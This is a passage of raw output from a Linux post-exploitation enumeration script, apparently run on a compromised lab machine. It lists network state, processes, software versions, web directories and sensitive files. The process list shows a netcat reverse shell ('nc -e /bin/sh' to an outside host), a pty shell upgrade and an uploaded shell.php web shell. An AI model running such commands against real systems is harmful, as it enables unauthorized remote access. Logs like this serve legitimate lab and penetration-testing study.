          inet6 addr: dead:beef::250:56ff:feb9:b81b/64 Scope:Global
          inet6 addr: fe80::250:56ff:feb9:b81b/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:763144 errors:0 dropped:26 overruns:0 frame:0
          TX packets:509146 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:64036354 (64.0 MB)  TX bytes:78373095 (78.3 MB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:172 errors:0 dropped:0 overruns:0 frame:0
          TX packets:172 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1
          RX bytes:13227 (13.2 KB)  TX bytes:13227 (13.2 KB)


ARP history:
? (10.10.10.2) at 00:50:56:aa:d8:f7 [ether] on ens160


Nameserver(s):
nameserver 8.8.8.8


Default route:
default         10.10.10.2      0.0.0.0         UG    0      0        0 ens160


Listening TCP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1247/nginx: worker
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0    347 10.10.10.24:80          10.10.14.11:36052       ESTABLISHED 1247/nginx: worker
tcp        0    347 10.10.10.24:80          10.10.14.11:36070       ESTABLISHED 1247/nginx: worker
tcp        0    347 10.10.10.24:80          10.10.14.11:36046       ESTABLISHED 1247/nginx: worker
tcp        0      0 10.10.10.24:80          10.10.14.11:36092       SYN_RECV    -
tcp        0      1 10.10.10.24:80          10.10.14.11:36040       LAST_ACK    -
tcp        0    347 10.10.10.24:80          10.10.14.11:36048       ESTABLISHED 1247/nginx: worker
tcp        0    347 10.10.10.24:80          10.10.14.11:36066       ESTABLISHED 1247/nginx: worker
tcp        0      1 10.10.10.24:80          10.10.14.11:36028       LAST_ACK    -
tcp        0      0 10.10.10.24:80          10.10.14.11:36082       SYN_RECV    -
tcp        0    347 10.10.10.24:80          10.10.14.11:36076       ESTABLISHED 1247/nginx: worker
tcp        0      0 10.10.10.24:80          10.10.14.11:36084       SYN_RECV    -
tcp        0    347 10.10.10.24:80          10.10.14.11:36050       ESTABLISHED 1247/nginx: worker
tcp        0    347 10.10.10.24:80          10.10.14.11:36060       ESTABLISHED 1247/nginx: worker
tcp        0    347 10.10.10.24:80          10.10.14.11:36074       ESTABLISHED 1247/nginx: worker
tcp        0    347 10.10.10.24:80          10.10.14.11:36056       ESTABLISHED 1247/nginx: worker
tcp        0      1 10.10.10.24:80          10.10.14.11:36034       LAST_ACK    -
tcp        0      0 10.10.10.24:80          10.10.14.11:36090       SYN_RECV    -
tcp        0      0 10.10.10.24:80          10.10.14.11:36088       SYN_RECV    -
tcp        0      0 10.10.10.24:80          10.10.14.11:36086       SYN_RECV    -
tcp        0      1 10.10.10.24:80          10.10.14.11:36042       LAST_ACK    -
tcp        0    347 10.10.10.24:80          10.10.14.11:36072       ESTABLISHED 1247/nginx: worker
tcp        0      1 10.10.10.24:80          10.10.14.11:36032       LAST_ACK    -
tcp        0      0 10.10.10.24:80          10.10.14.11:36078       SYN_RECV    -
tcp        0    347 10.10.10.24:80          10.10.14.11:36054       ESTABLISHED 1247/nginx: worker
tcp        0    347 10.10.10.24:80          10.10.14.11:36064       ESTABLISHED 1247/nginx: worker
tcp        0    347 10.10.10.24:80          10.10.14.11:36058       ESTABLISHED 1247/nginx: worker
tcp        0    113 10.10.10.24:55194       10.10.14.11:8081        ESTABLISHED 1857/sh
tcp        0      0 10.10.10.24:80          10.10.14.11:36080       SYN_RECV    -
tcp        0      1 10.10.10.24:80          10.10.14.11:36036       LAST_ACK    -
tcp        0      1 10.10.10.24:80          10.10.14.11:36030       LAST_ACK    -
tcp        0    347 10.10.10.24:80          10.10.14.11:36068       ESTABLISHED 1247/nginx: worker
tcp        0      1 10.10.10.24:80          10.10.14.11:36038       LAST_ACK    -
tcp        0    347 10.10.10.24:80          10.10.14.11:36044       ESTABLISHED 1247/nginx: worker
tcp        0    347 10.10.10.24:80          10.10.14.11:36062       ESTABLISHED 1247/nginx: worker
tcp6       0      0 :::80                   :::*                    LISTEN      1247/nginx: worker
tcp6       0      0 :::22                   :::*                    LISTEN      -


Listening UDP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
udp        0      0 10.10.10.24:33268       8.8.8.8:53              ESTABLISHED -


### SERVICES #############################################
Running processes:
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.5  37940  5872 ?        Ss   Feb18   0:03 /sbin/init
root         2  0.0  0.0      0     0 ?        S    Feb18   0:00 [kthreadd]
root         3  0.0  0.0      0     0 ?        S    Feb18   0:00 [ksoftirqd/0]
root         5  0.0  0.0      0     0 ?        S<   Feb18   0:00 [kworker/0:0H]
root         7  0.0  0.0      0     0 ?        S    Feb18   0:02 [rcu_sched]
root         8  0.0  0.0      0     0 ?        S    Feb18   0:00 [rcu_bh]
root         9  0.0  0.0      0     0 ?        S    Feb18   0:00 [migration/0]
root        10  0.0  0.0      0     0 ?        S    Feb18   0:00 [watchdog/0]
root        11  0.0  0.0      0     0 ?        S    Feb18   0:00 [watchdog/1]
root        12  0.0  0.0      0     0 ?        S    Feb18   0:00 [migration/1]
root        13  0.0  0.0      0     0 ?        S    Feb18   0:02 [ksoftirqd/1]
root        15  0.0  0.0      0     0 ?        S<   Feb18   0:00 [kworker/1:0H]
root        16  0.0  0.0      0     0 ?        S    Feb18   0:00 [kdevtmpfs]
root        17  0.0  0.0      0     0 ?        S<   Feb18   0:00 [netns]
root        18  0.0  0.0      0     0 ?        S<   Feb18   0:00 [perf]
root        19  0.0  0.0      0     0 ?        S    Feb18   0:00 [khungtaskd]
root        20  0.0  0.0      0     0 ?        S<   Feb18   0:00 [writeback]
root        21  0.0  0.0      0     0 ?        SN   Feb18   0:00 [ksmd]
root        22  0.0  0.0      0     0 ?        SN   Feb18   0:00 [khugepaged]
root        23  0.0  0.0      0     0 ?        S<   Feb18   0:00 [crypto]
root        24  0.0  0.0      0     0 ?        S<   Feb18   0:00 [kintegrityd]
root        25  0.0  0.0      0     0 ?        S<   Feb18   0:00 [bioset]
root        26  0.0  0.0      0     0 ?        S<   Feb18   0:00 [kblockd]
root        27  0.0  0.0      0     0 ?        S<   Feb18   0:00 [ata_sff]
root        28  0.0  0.0      0     0 ?        S<   Feb18   0:00 [md]
root        29  0.0  0.0      0     0 ?        S<   Feb18   0:00 [devfreq_wq]
root        33  0.0  0.0      0     0 ?        S    Feb18   0:00 [kswapd0]
root        34  0.0  0.0      0     0 ?        S<   Feb18   0:00 [vmstat]
root        35  0.0  0.0      0     0 ?        S    Feb18   0:00 [fsnotify_mark]
root        36  0.0  0.0      0     0 ?        S    Feb18   0:00 [ecryptfs-kthrea]
root        52  0.0  0.0      0     0 ?        S<   Feb18   0:00 [kthrotld]
root        53  0.0  0.0      0     0 ?        S<   Feb18   0:00 [acpi_thermal_pm]
root        54  0.0  0.0      0     0 ?        S<   Feb18   0:00 [bioset]
root        55  0.0  0.0      0     0 ?        S<   Feb18   0:00 [bioset]
root        56  0.0  0.0      0     0 ?        S<   Feb18   0:00 [bioset]
root        57  0.0  0.0      0     0 ?        S<   Feb18   0:00 [bioset]
root        58  0.0  0.0      0     0 ?        S<   Feb18   0:00 [bioset]
root        59  0.0  0.0      0     0 ?        S<   Feb18   0:00 [bioset]
root        60  0.0  0.0      0     0 ?        S<   Feb18   0:00 [bioset]
root        61  0.0  0.0      0     0 ?        S<   Feb18   0:00 [bioset]
root        63  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_0]
root        64  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_0]
root        65  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_1]
root        66  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_1]
root        72  0.0  0.0      0     0 ?        S<   Feb18   0:00 [ipv6_addrconf]
root        85  0.0  0.0      0     0 ?        S<   Feb18   0:00 [deferwq]
root        86  0.0  0.0      0     0 ?        S<   Feb18   0:00 [charger_manager]
root       124  0.0  0.0      0     0 ?        S<   Feb18   0:00 [bioset]
root       125  0.0  0.0      0     0 ?        S<   Feb18   0:00 [bioset]
root       126  0.0  0.0      0     0 ?        S<   Feb18   0:00 [bioset]
root       127  0.0  0.0      0     0 ?        S<   Feb18   0:00 [bioset]
root       128  0.0  0.0      0     0 ?        S<   Feb18   0:00 [bioset]
root       129  0.0  0.0      0     0 ?        S<   Feb18   0:00 [bioset]
root       130  0.0  0.0      0     0 ?        S<   Feb18   0:00 [bioset]
root       131  0.0  0.0      0     0 ?        S<   Feb18   0:00 [bioset]
root       132  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_2]
root       133  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_2]
root       134  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_3]
root       135  0.0  0.0      0     0 ?        S<   Feb18   0:00 [vmw_pvscsi_wq_2]
root       136  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_3]
root       137  0.0  0.0      0     0 ?        S<   Feb18   0:00 [kpsmoused]
root       138  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_4]
root       139  0.0  0.0      0     0 ?        S<   Feb18   0:00 [bioset]
root       140  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_4]
root       143  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_5]
root       144  0.0  0.0      0     0 ?        S<   Feb18   0:00 [ttm_swap]
root       146  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_5]
root       152  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_6]
root       154  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_6]
root       156  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_7]
root       158  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_7]
root       160  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_8]
root       163  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_8]
root       164  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_9]
root       165  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_9]
root       166  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_10]
root       167  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_10]
root       168  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_11]
root       169  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_11]
root       170  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_12]
root       171  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_12]
root       172  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_13]
root       173  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_13]
root       174  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_14]
root       175  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_14]
root       176  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_15]
root       177  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_15]
root       178  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_16]
root       179  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_16]
root       180  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_17]
root       181  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_17]
root       182  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_18]
root       183  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_18]
root       184  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_19]
root       185  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_19]
root       186  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_20]
root       187  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_20]
root       188  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_21]
root       189  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_21]
root       190  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_22]
root       192  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_22]
root       193  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_23]
root       194  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_23]
root       195  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_24]
root       196  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_24]
root       197  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_25]
root       198  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_25]
root       199  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_26]
root       200  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_26]
root       201  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_27]
root       202  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_27]
root       203  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_28]
root       204  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_28]
root       205  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_29]
root       206  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_29]
root       207  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_30]
root       208  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_30]
root       209  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_31]
root       210  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_31]
root       211  0.0  0.0      0     0 ?        S    Feb18   0:00 [scsi_eh_32]
root       212  0.0  0.0      0     0 ?        S<   Feb18   0:00 [scsi_tmf_32]
root       245  0.0  0.0      0     0 ?        S    Feb18   0:00 [kworker/u4:28]
root       246  0.0  0.0      0     0 ?        S    Feb18   0:00 [kworker/u4:29]
root       271  0.0  0.0      0     0 ?        S<   Feb18   0:00 [bioset]
root       276  0.0  0.0      0     0 ?        S<   Feb18   0:00 [kworker/0:1H]
root       343  0.0  0.0      0     0 ?        S<   Feb18   0:00 [raid5wq]
root       370  0.0  0.0      0     0 ?        S<   Feb18   0:00 [bioset]
root       398  0.0  0.0      0     0 ?        S    Feb18   0:00 [jbd2/sda1-8]
root       399  0.0  0.0      0     0 ?        S<   Feb18   0:00 [ext4-rsv-conver]
root       442  0.0  0.0      0     0 ?        S    Feb18   0:00 [kworker/0:2]
root       450  0.0  0.2  28356  2944 ?        Ss   Feb18   0:00 /lib/systemd/systemd-journald
root       477  0.0  0.0      0     0 ?        S    Feb18   0:00 [kauditd]
root       482  0.0  0.0      0     0 ?        S    Feb18   0:00 [kworker/1:4]
root       490  0.0  0.0      0     0 ?        S<   Feb18   0:00 [iscsi_eh]
root       491  0.0  0.1  94772  1552 ?        Ss   Feb18   0:00 /sbin/lvmetad -f
root       507  0.0  0.0      0     0 ?        S<   Feb18   0:00 [ib_addr]
root       510  0.0  0.0      0     0 ?        S<   Feb18   0:00 [ib_mcast]
root       511  0.0  0.0      0     0 ?        S<   Feb18   0:00 [ib_nl_sa_wq]
root       512  0.0  0.4  45456  4876 ?        Ss   Feb18   0:01 /lib/systemd/systemd-udevd
root       513  0.0  0.0      0     0 ?        S<   Feb18   0:00 [ib_cm]
root       514  0.0  0.0      0     0 ?        S<   Feb18   0:00 [iw_cm_wq]
root       515  0.0  0.0      0     0 ?        S<   Feb18   0:00 [rdma_cm]
systemd+   622  0.0  0.2 100324  2572 ?        Ssl  Feb18   0:00 /lib/systemd/systemd-timesyncd
root       653  0.0  0.0      0     0 ?        S<   Feb18   0:00 [kworker/1:1H]
root      1041  0.0  0.0   5224   160 ?        Ss   Feb18   0:00 /sbin/iscsid
root      1042  0.0  0.3   5724  3512 ?        S<Ls Feb18   0:01 /sbin/iscsid
syslog    1064  0.0  0.3 256396  3108 ?        Ssl  Feb18   0:00 /usr/sbin/rsyslogd -n
root      1069  0.0  0.2  29008  2936 ?        Ss   Feb18   0:00 /usr/sbin/cron -f
message+  1071  0.0  0.3  42900  3844 ?        Ss   Feb18   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation
root      1091  0.0  0.1 457292  1552 ?        Ssl  Feb18   0:00 /usr/bin/lxcfs /var/lib/lxcfs/
root      1093  0.0  0.1  20100  1284 ?        Ss   Feb18   0:00 /lib/systemd/systemd-logind
root      1095  0.0  2.2 221784 22752 ?        Ssl  Feb18   0:00 /usr/lib/snapd/snapd
root      1101  0.0  0.5  65520  6096 ?        Ss   Feb18   0:00 /usr/sbin/sshd -D
root      1111  0.0  0.1   4400  1276 ?        Ss   Feb18   0:00 /usr/sbin/acpid
root      1115  0.0  0.9 185736 10060 ?        Ssl  Feb18   0:08 /usr/bin/vmtoolsd
root      1121  0.0  0.0      0     0 ?        S    Feb18   0:00 [kworker/0:4]
root      1124  0.0  0.6 275884  6236 ?        Ssl  Feb18   0:00 /usr/lib/accountsservice/accounts-daemon
daemon    1132  0.0  0.2  26044  2276 ?        Ss   Feb18   0:00 /usr/sbin/atd -f
root      1186  0.0  0.2  19620  2176 ?        Ss   Feb18   0:00 /usr/sbin/irqbalance --pid=/var/run/irqbalance.pid
root      1198  0.0  0.0  13376   168 ?        Ss   Feb18   0:00 /sbin/mdadm --monitor --pid-file /run/mdadm/monitor.pid --daemonise --scan --syslog
mysql     1206  0.0 15.6 1246912 158504 ?      Ssl  Feb18   0:05 /usr/sbin/mysqld
root      1222  0.0  0.5 277180  5928 ?        Ssl  Feb18   0:00 /usr/lib/policykit-1/polkitd --no-debug
root      1225  0.0  0.1  15940  1764 tty1     Ss+  Feb18   0:00 /sbin/agetty --noclear tty1 linux
root      1246  0.0  0.1 125112  1472 ?        Ss   Feb18   0:00 nginx: master process /usr/sbin/nginx -g daemon on; master_process on;
www-data  1247  0.1  0.4 125704  5068 ?        S    Feb18   0:18 nginx: worker process
www-data  1248  0.0  0.4 125704  5008 ?        S    Feb18   0:04 nginx: worker process
root      1250  0.0  2.4 221516 25324 ?        Ss   Feb18   0:00 php-fpm: master process (/etc/php/7.0/fpm/php-fpm.conf)
www-data  1254  0.0  1.0 221736 10396 ?        S    Feb18   0:00 php-fpm: pool www
www-data  1255  0.0  0.9 221736 10116 ?        S    Feb18   0:00 php-fpm: pool www
root      1554  0.0  0.0      0     0 ?        S    Feb18   0:00 [kworker/1:0]
www-data  1856  0.0  0.0   4508   740 ?        S    03:01   0:00 sh -c nc -e /bin/sh 10.10.14.11 8081
www-data  1857  0.0  0.0   4508   756 ?        S    03:01   0:00 sh
www-data  1859  0.0  0.8  35840  8364 ?        S    03:03   0:00 python3 -c import pty; pty.spawn("/bin/bash")
www-data  1860  0.0  0.3  18216  3280 pts/0    Ss   03:03   0:00 /bin/bash
www-data  1866  0.0  0.3  18888  3668 pts/0    S+   03:07   0:00 bash
www-data  1867  0.0  0.3  18960  3344 pts/0    S+   03:07   0:00 bash
www-data  1868  0.0  0.0   4384   660 pts/0    S+   03:07   0:00 tee -a
www-data  2034  0.0  0.2  18960  2788 pts/0    S+   03:08   0:00 bash
www-data  2035  0.0  0.2  34424  2932 pts/0    R+   03:08   0:00 ps aux


Process binaries & associated permissions (from above list):
-rwxr-xr-x 1 root root  1037528 Jun 24  2016 /bin/bash
-rwxr-xr-x 1 root root   326224 Feb 15  2017 /lib/systemd/systemd-journald
-rwxr-xr-x 1 root root   618520 Feb 15  2017 /lib/systemd/systemd-logind
-rwxr-xr-x 1 root root   141904 Feb 15  2017 /lib/systemd/systemd-timesyncd
-rwxr-xr-x 1 root root   453240 Feb 15  2017 /lib/systemd/systemd-udevd
-rwxr-xr-x 1 root root    44104 Dec 16  2016 /sbin/agetty
lrwxrwxrwx 1 root root       20 Feb 15  2017 /sbin/init -> /lib/systemd/systemd
-rwxr-xr-x 1 root root   783984 Dec  9  2016 /sbin/iscsid
-rwxr-xr-x 1 root root    51336 Apr 16  2016 /sbin/lvmetad
-rwxr-xr-x 1 root root   513216 Feb 20  2017 /sbin/mdadm
-rwxr-xr-x 1 root root   224208 Jan 12  2017 /usr/bin/dbus-daemon
-rwxr-xr-x 1 root root    18504 Feb  3  2017 /usr/bin/lxcfs
-rwxr-xr-x 1 root root    44528 Feb  9  2017 /usr/bin/vmtoolsd
-rwxr-xr-x 1 root root   164928 Nov  3  2016 /usr/lib/accountsservice/accounts-daemon
-rwxr-xr-x 1 root root    15048 Jan 18  2016 /usr/lib/policykit-1/polkitd
-rwxr-xr-x 1 root root 19613424 Apr 29  2017 /usr/lib/snapd/snapd
-rwxr-xr-x 1 root root    48112 Apr  9  2016 /usr/sbin/acpid
-rwxr-xr-x 1 root root    26632 Jan 14  2016 /usr/sbin/atd
-rwxr-xr-x 1 root root    44472 Apr  5  2016 /usr/sbin/cron
-rwxr-xr-x 1 root root    48440 Apr 11  2016 /usr/sbin/irqbalance
-rwxr-xr-x 1 root root 24754056 Apr 27  2017 /usr/sbin/mysqld
-rwxr-xr-x 1 root root   599328 Apr  5  2016 /usr/sbin/rsyslogd
-rwxr-xr-x 1 root root   799216 Mar 16  2017 /usr/sbin/sshd


/etc/init.d/ binary permissions:
total 356
drwxr-xr-x   2 root root 4096 May 22  2017 .
drwxr-xr-x 109 root root 4096 May 22  2017 ..
-rw-r--r--   1 root root 1286 May 22  2017 .depend.boot
-rw-r--r--   1 root root 1291 May 22  2017 .depend.start
-rw-r--r--   1 root root 1286 May 22  2017 .depend.stop
-rw-r--r--   1 root root 2427 Jan 19  2016 README
-rwxr-xr-x   1 root root 2243 Feb  9  2016 acpid
-rwxr-xr-x   1 root root 5336 Apr 15  2016 alsa-utils
-rwxr-xr-x   1 root root 2014 Dec 28  2014 anacron
-rwxr-xr-x   1 root root 6223 Mar  3  2017 apparmor
-rwxr-xr-x   1 root root 2799 Mar 31  2016 apport
-rwxr-xr-x   1 root root 1071 Dec  6  2015 atd
-rwxr-xr-x   1 root root 2968 Mar  1  2016 bluetooth
-rwxr-xr-x   1 root root 1275 Jan 19  2016 bootmisc.sh
-rwxr-xr-x   1 root root 3807 Jan 19  2016 checkfs.sh
-rwxr-xr-x   1 root root 1098 Jan 19  2016 checkroot-bootclean.sh
-rwxr-xr-x   1 root root 9353 Jan 19  2016 checkroot.sh
-rwxr-xr-x   1 root root 1343 Apr  4  2016 console-setup
-rwxr-xr-x   1 root root 3049 Apr  5  2016 cron
-rwxr-xr-x   1 root root  937 Mar 28  2015 cryptdisks
-rwxr-xr-x   1 root root  896 Mar 28  2015 cryptdisks-early
-rwxr-xr-x   1 root root 2813 Dec  2  2015 dbus
-rwxr-xr-x   1 root root 1105 Mar 15  2016 grub-common
-rwxr-xr-x   1 root root 1336 Jan 19  2016 halt
-rwxr-xr-x   1 root root 1423 Jan 19  2016 hostname.sh
-rwxr-xr-x   1 root root 3809 Mar 12  2016 hwclock.sh
-rwxr-xr-x   1 root root 2372 Apr 11  2016 irqbalance
-rwxr-xr-x   1 root root 1503 Mar 29  2016 iscsid
-rwxr-xr-x   1 root root 1804 Apr  4  2016 keyboard-setup
-rwxr-xr-x   1 root root 1300 Jan 19  2016 killprocs
-rwxr-xr-x   1 root root 2087 Dec 21  2015 kmod
-rwxr-xr-x   1 root root 3431 Mar 31  2017 lightdm
-rwxr-xr-x   1 root root  695 Oct 30  2015 lvm2
-rwxr-xr-x   1 root root  571 Oct 30  2015 lvm2-lvmetad
-rwxr-xr-x   1 root root  586 Oct 30  2015 lvm2-lvmpolld
-rwxr-xr-x   1 root root 2300 Feb  3  2017 lxcfs
-rwxr-xr-x   1 root root 2541 Feb  3  2017 lxd
-rwxr-xr-x   1 root root 2611 Apr 11  2016 mdadm
-rwxr-xr-x   1 root root 1199 Jul 16  2014 mdadm-waitidle
-rwxr-xr-x   1 root root  703 Jan 19  2016 mountall-bootclean.sh
-rwxr-xr-x   1 root root 2301 Jan 19  2016 mountall.sh
-rwxr-xr-x   1 root root 1461 Jan 19  2016 mountdevsubfs.sh
-rwxr-xr-x   1 root root 1564 Jan 19  2016 mountkernfs.sh
-rwxr-xr-x   1 root root  711 Jan 19  2016 mountnfs-bootclean.sh
-rwxr-xr-x   1 root root 2456 Jan 19  2016 mountnfs.sh
-rwxr-xr-x   1 root root 5607 Feb  3  2017 mysql
-rwxr-xr-x   1 root root 1757 Jan 11  2017 network-manager
-rwxr-xr-x   1 root root 4771 Jul 19  2015 networking
-rwxr-xr-x   1 root root 4579 Apr 26  2016 nginx
-rwxr-xr-x   1 root root 1581 Oct 16  2015 ondemand
-rwxr-xr-x   1 root root 2503 Mar 29  2016 open-iscsi
-rwxr-xr-x   1 root root 1578 Sep 18  2016 open-vm-tools
-rwxr-xr-x   1 root root 4987 Mar  2  2017 php7.0-fpm
-rwxr-xr-x   1 root root 1366 Nov 15  2015 plymouth
-rwxr-xr-x   1 root root  752 Nov 15  2015 plymouth-log
-rwxr-xr-x   1 root root 1192 Sep  6  2015 procps
-rwxr-xr-x   1 root root 6366 Jan 19  2016 rc
-rwxr-xr-x   1 root root  820 Jan 19  2016 rc.local
-rwxr-xr-x   1 root root  117 Jan 19  2016 rcS
-rwxr-xr-x   1 root root  661 Jan 19  2016 reboot
-rwxr-xr-x   1 root root 4149 Nov 23  2015 resolvconf
-rwxr-xr-x   1 root root 4355 Jul 10  2014 rsync
-rwxr-xr-x   1 root root 2796 Feb  3  2016 rsyslog
-rwxr-xr-x   1 root root 1226 Jun  9  2015 screen-cleanup
-rwxr-xr-x   1 root root 3927 Jan 19  2016 sendsigs
-rwxr-xr-x   1 root root  597 Jan 19  2016 single
-rw-r--r--   1 root root 1087 Jan 19  2016 skeleton
-rwxr-xr-x   1 root root 4077 Mar 16  2017 ssh
-rwxr-xr-x   1 root root 6087 Apr 12  2016 udev
-rwxr-xr-x   1 root root 2049 Aug  7  2014 ufw
-rwxr-xr-x   1 root root 2737 Jan 19  2016 umountfs
-rwxr-xr-x   1 root root 2202 Jan 19  2016 umountnfs.sh
-rwxr-xr-x   1 root root 1879 Jan 19  2016 umountroot
-rwxr-xr-x   1 root root 1391 Apr 20  2017 unattended-upgrades
-rwxr-xr-x   1 root root 3111 Jan 19  2016 urandom
-rwxr-xr-x   1 root root 1306 Dec 16  2016 uuidd
-rwxr-xr-x   1 root root 2757 Nov 10  2015 x11-common


### SOFTWARE #############################################
Sudo version:
Sudo version 1.8.16


MYSQL version:
mysql  Ver 14.14 Distrib 5.7.18, for Linux (x86_64) using  EditLine wrapper


Anything in the Apache home dirs?:
/var/www/:
total 12K
drwxr-xr-x  3 root root 4.0K May 16  2017 .
drwxr-xr-x 14 root root 4.0K May 16  2017 ..
drwxr-xr-x  3 root root 4.0K May 19  2017 html

/var/www/html:
total 444K
drwxr-xr-x 3 root     root     4.0K May 19  2017 .
drwxr-xr-x 3 root     root     4.0K May 16  2017 ..
-rwxr-xr-x 1 root     root     114K May 15  2017 bounce.jpg
-rwxr-xr-x 1 root     root     164K May 15  2017 carrie.jpg
-rwxr-xr-x 1 root     root      921 May 15  2017 exposed.php
-rwxr-xr-x 1 root     root      141 May 15  2017 hair.html
-rwxr-xr-x 1 root     root      144 May 15  2017 index.html
-rwxr-xr-x 1 root     root     133K May 15  2017 sea.jpg
-rwxr-xr-x 1 root     root      223 May 15  2017 test.html
drwxr-xr-x 2 www-data www-data 4.0K Feb 19 02:56 uploads

/var/www/html/uploads:
total 128K
drwxr-xr-x 2 www-data www-data 4.0K Feb 19 02:56 .
drwxr-xr-x 3 root     root     4.0K May 19  2017 ..
-rwxr-xr-x 1 www-data www-data 114K May 19  2017 bounce.jpg
-rw-r--r-- 1 www-data www-data   39 Feb 19 02:56 shell.php


### INTERESTING FILES ####################################
Useful file locations:
/bin/nc
/bin/netcat
/usr/bin/wget
/usr/bin/gcc


Installed compilers:
ii  gcc                                4:5.3.1-1ubuntu1                           amd64        GNU C compiler
ii  gcc-5                              5.4.0-6ubuntu1~16.04.4                     amd64        GNU C compiler
rc  libxkbcommon0:amd64                0.5.0-1ubuntu2                             amd64        library interface to the XKB compiler - shared library


Can we read/write sensitive files:
-rw-r--r-- 1 root root 1751 May 22  2017 /etc/passwd
-rw-r--r-- 1 root root 886 May 16  2017 /etc/group
-rw-r--r-- 1 root root 575 Oct 22  2015 /etc/profile
-rw-r----- 1 root shadow 1123 May 22  2017 /etc/shadow


Can't search *.conf files as no keyword was entered

Can't search *.log files as no keyword was entered

Can't search *.ini files as no keyword was entered

All *.conf files in /etc (recursive 1 level):
-rw-r--r-- 1 root root 92 Oct 22  2015 /etc/host.conf
-rw-r--r-- 1 root root 7649 May 16  2017 /etc/pnm2ppa.conf
-rw-r--r-- 1 root root 2584 Feb 18  2016 /etc/gai.conf
-rw-r--r-- 1 root root 967 Oct 30  2015 /etc/mke2fs.conf
-rw-r--r-- 1 root root 4781 Mar 17  2016 /etc/hdparm.conf
-rw-r--r-- 1 root root 1371 Jan 27  2016 /etc/rsyslog.conf
